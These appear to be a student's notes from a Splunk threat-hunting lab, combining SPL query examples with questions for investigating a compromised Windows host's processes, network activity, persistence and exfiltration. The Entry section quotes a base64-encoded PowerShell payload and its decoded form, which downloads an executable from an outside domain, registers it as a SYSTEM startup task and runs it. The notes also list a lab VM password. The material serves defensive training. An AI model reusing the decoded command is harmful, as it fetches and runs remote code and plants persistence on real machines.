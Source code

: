 
Platform for searching and monitoring



Index - The set of data you're trying to search

Source Type - The source within the data (Eg. Sourcetype=Zeek)

Time Range (important) - The date ranges of the time the data was ingested. THIS IS NOT TO BE CONFUSED AS THE ARTEFACT TIME (x2)

Index = Eventlogs sourcetype=WinEventLog:Security

Index = host sourcetype=velociraptor


Filtering and fields

Example:

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*"
```

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*" AND user="*smith*"
```

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 OR EventCode=4624 AND user="*jane*" OR user="*smith*"
```

Format the output

- stats
- table
- top/rare
- dedup
- eval
- rename

```python
index = Eventlogs sourcetype=WinEventLog:Security
EventCode=4625 user="*jane*" | table user | dedup user
```

[vaquarkhan/splunk-cheat-sheet](https://github.com/vaquarkhan/splunk-cheat-sheet)






# 🔐 VM Access Details

**VM Password:** `Password1`

If prompted with permission issues, click **"Take Ownership"** and then confirm with **"I Copied It"**.

If the VM requires a reboot, proceed with rebooting.

If the screen resolution appears incorrect or small, click the **"Resize"** button in the VMware toolbar (furthest right option at the top).



### **1 Entry & Initial Execution**

 One process launches another process that is rarely spawned by web browsers.
    
    - Which process pair stands out as unusual and why?
    
```python
index="velociraptor" source="Velociraptor_ETW_ProcessCreation_Flat.json"
|  table result.CommandLine result.Image result.ParentProcessId
```
OR
```python
index="velociraptor" source="Velociraptor_ETW_ProcessCreation_Flat.json"
|  stats count by result.CommandLine result.Image result.ParentProcessId
```
![[Pasted image 20250828134534.png]]

powershell.exe 1004
schetasks.exe 1005

    
    - What user account was responsible for this?

![[Pasted image 20250828134626.png]]



Base 64 Malicious

```
SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cHM6Ly9jZG4tZmlsZXMtYXJjaGl2ZS5jb20vYmluL1VwZGF0ZXJUYXNrLmV4ZSIgLU91dEZpbGUgIkM6XFVzZXJzXHN2Yy11cGRhdGVyXEFwcERhdGFcUm9hbWluZ1xVcGRhdGVyVGFzay5leGUiDQpzY2h0YXNrcyAvY3JlYXRlIC90biAiVXBkYXRlclRhc2siIC90ciAiQzpcVXNlcnNcc3ZjLXVwZGF0ZXJcQXBwRGF0YVxSb2FtaW5nXFVwZGF0ZXJUYXNrLmV4ZSIgL3NjIG9uc3RhcnQgL3J1IFNZU1RFTQ0KU3RhcnQtUHJvY2VzcyAiQzpcVXNlcnNcc3ZjLXVwZGF0ZXJcQXBwRGF0YVxSb2FtaW5nXFVwZGF0ZXJUYXNrLmV4ZSINCg
```

```
Invoke-WebRequest -Uri "https://cdn-files-archive.com/bin/UpdaterTask.exe" -OutFile "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe"
schtasks /create /tn "UpdaterTask" /tr "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe" /sc onstart /ru SYSTEM
Start-Process "C:\Users\svc-updater\AppData\Roaming\UpdaterTask.exe"
```




### **2 Network Activity**

Which process establishes an outbound connection to an unfamiliar domain?
    
    - How can you determine whether this domain is suspicious?
        

 Which network connection state would indicate that this communication is actively occurring?
    






### **3 Persistence Mechanisms**

Do you see any new or modified tasks or services configured on the host?
    
    - Which one(s) stand out as suspicious and why?
        
Where on the system is the binary or executable being used for persistence located?
    
    - Is this a typical location for legitimate software?
        

---

### **4️ Data Staging & Exfiltration**

Are there any new archive files on the system that may contain collected data?
    
    - Which one appears suspicious and why?
        
 Do you notice any evidence of these files being prepared for transmission?
    
    - Which user seems involved?
        


---

### **5️ Obfuscation and Detection**

Do you find any command lines or scripts that seem to be attempting to hide their true intent?
  
Which artifacts or fields could help you confirm if the file transfer was successful?
    
 Based on the timeline of events, which action would you have been able to detect first if you had the right detection in place? ( no wrong answers ) 
